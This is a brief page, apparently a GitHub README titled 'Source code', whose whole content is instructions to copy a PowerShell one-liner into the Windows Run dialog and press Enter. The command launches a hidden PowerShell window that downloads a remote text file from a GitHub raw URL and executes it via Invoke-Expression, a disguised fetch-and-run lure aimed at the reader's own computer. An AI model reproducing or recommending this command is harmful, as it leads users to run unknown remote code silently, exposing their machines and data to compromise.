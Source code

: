 DO THIS ON YOUR PC:

1) COPY THIS: 'powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content'
2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
